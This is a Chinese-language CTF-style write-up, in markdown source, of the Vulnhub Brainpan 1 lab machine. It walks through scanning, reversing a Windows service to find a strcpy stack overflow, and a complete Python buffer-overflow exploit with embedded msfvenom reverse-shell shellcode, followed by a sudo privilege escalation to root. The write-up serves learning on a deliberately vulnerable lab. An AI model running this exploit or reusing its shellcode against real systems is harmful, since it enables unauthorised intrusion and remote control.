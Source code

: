 ```yaml
---
title: Vulnhub - Brainpan の Write-Up
date: 2020-11-20 16:25:49
categories:
- WriteUPs
- Vulnhub
tags:
- Web
- Reverse
---
```

## Description

`Vulnhub`靶机`Brainpan`系列的第一台。整体难度中等。

<!-- more -->

## Step 1

首先找靶机IP：

![](/img/Brainpan1/Brainpan1.png)

扫描靶机开放端口：

![](/img/Brainpan1/Brainpan2.png)

## Step 2

9999端口：

![](/img/Brainpan1/Brainpan3.png)

看起来需要一个密码，只能先跳过。

10000端口是http的服务，浏览器看上去只是一张图片的静态页面：

![](/img/Brainpan1/Brainpan4.png)

目录扫描发现有个bin目录：

![](/img/Brainpan1/Brainpan5.png)

访问bin目录，有个exe文件：

![](/img/Brainpan1/Brainpan6.png)

## Step 3

通过IDA逆向之后发现这是9999端口运行的程序：

![](/img/Brainpan1/Brainpan7.png)

在程序中发现一个`get_reply`函数：

![](/img/Brainpan1/Brainpan8.png)

在函数中可以看到调用strcpy，而在主函数中&Dest长度可以到1000字节，get_reply函数中Source只有0x208字节即520字节。所以这里存在栈溢出漏洞，当填充了`520(Source_data)+4(EBP)`总共524字节的数据之后就可以控制函数的返回地址。

由于程序中没有可以直接getshell的函数，所以需要我们将shellcode写入的buf中，通过jmp esp命令控制程序跳转到buf执行命令。

在程序中找到311712F3的地址有jmp esp指令，再通过msfvenom生成payload：

![](/img/Brainpan1/Brainpan9.png)

最终的利用脚本为：

```Python
import socket

target_ip = '172.16.83.3'
target_port = 9999

# padding with 'a'
padding = '\x61' * 524

# address of 'jmp esp' command - 0x311712F3
jmp_esp = '\xF3\x12\x17\x31'

# shellcode
buf =  b""
buf += "\x90" * 30
buf += b"\xbf\x23\x22\x77\xf6\xd9\xe1\xd9\x74\x24\xf4\x5a\x33"
buf += b"\xc9\xb1\x12\x31\x7a\x12\x03\x7a\x12\x83\xc9\xde\x95"
buf += b"\x03\x3c\xc4\xad\x0f\x6d\xb9\x02\xba\x93\xb4\x44\x8a"
buf += b"\xf5\x0b\x06\x78\xa0\x23\x38\xb2\xd2\x0d\x3e\xb5\xba"
buf += b"\x21\xd0\x16\x38\x52\xd3\x98\x2d\xfe\x5a\x79\xfd\x98"
buf += b"\x0c\x2b\xae\xd7\xae\x42\xb1\xd5\x31\x06\x59\x88\x1e"
buf += b"\xd4\xf1\x3c\x4e\x35\x63\xd4\x19\xaa\x31\x75\x93\xcc"
buf += b"\x05\x72\x6e\x8e"

payload = padding + jmp_esp + buf

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target_ip, target_port))

s.recv(1024)
s.send(payload)
```

运行脚本之后就可以获取反弹shell：

![](/img/Brainpan1/Brainpan10.png)

## Step 4

根据之前靶机题权最简单的方式，直接查看sudo权限，提示我们可以以root权限运行`/home/anansi/bin/anansi_util`：

![](/img/Brainpan1/Brainpan11.png)

sudo执行之后根据命令提示可以直接接命令，所以当接上`/bin/bash`命令之后就可以获得root权限的shell。
